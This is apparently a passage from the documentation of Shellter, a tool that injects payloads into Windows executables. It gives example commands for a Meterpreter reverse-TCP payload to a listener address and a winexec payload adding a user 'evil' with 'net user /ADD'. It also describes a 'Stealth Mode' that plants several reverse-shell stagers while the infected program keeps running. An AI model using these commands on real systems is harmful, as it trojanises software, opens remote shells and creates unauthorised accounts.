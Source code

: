 Examples: -p meterpreter_reverse_tcp --lhost 192.168.0.6 --port 5656
	  -p winexec --cmd "cmd.exe /c net user evil password /ADD"

To use the above examples in Stealth Mode (see below), then just add '--stealth'
or '-s' arguments.

Reverse http/https payloads also accept domain names as --lhost parameter.
	  
	  
[10] What is the Stealth Mode?
===============================

This feature was introduced in Shellter V (v5.0).

It combines the benefits of dynamic PE infection with RedTeam functionality.

In a few words, this feature preserves the original functionality of the
infected application without compromising the originality of Shellter in terms
of dynamically choosing injection locations based on the execution flow of the
target PE file.

Furthermore, this feature allows to infect the same binary with more than one
payloads. 
As long as you enable the Stealth Mode feature, you can re-infect the same
binary with more payloads of your choice.
In this way, you can have multiple payloads running while the application still
runs as intended.

For example, you can infect the same PE file with a meterpreter_reverse_tcp
stager, a meterpreter_reverse_https stager and an another custom payload of
your choice.

All of them will run independently.

***Important***: 
When you use Stealth Mode with custom payloads, you need to remember to set the
exit function to 'THREAD' in your multi-handler listener, otherwise if the
session dies or you decide to kill it, then the process will terminate as well.
      
Also keep in mind that this exit function type is only effective after the
connection has been stablished, since this is handled by another stage of the
payload.

Furthermore, the reverse connection payloads from metasploit by default will
only attempt to connect back to the remote host only for a specific number of
times, and if that fails then the payload kills the process.

In order to keep the same behaviour regarding the amount of connection
attempts, and avoid to kill the process in Stealth Mode, Shellter will do a
small modification to them so that they will only kill the thread in which
the payload is running on, if there are no connection attempts left.

For all the reasons mentioned above, it is recommended that when you enable
Stealth Mode, and you want to use reverse connection payloads, to use those
embedded in Shellter.

Other payloads, like the command-execution ones, are not affected by this
issue, since the exit function type is actually effective on the generated
payload itself when you set it in metasploit before generating the raw
payload.
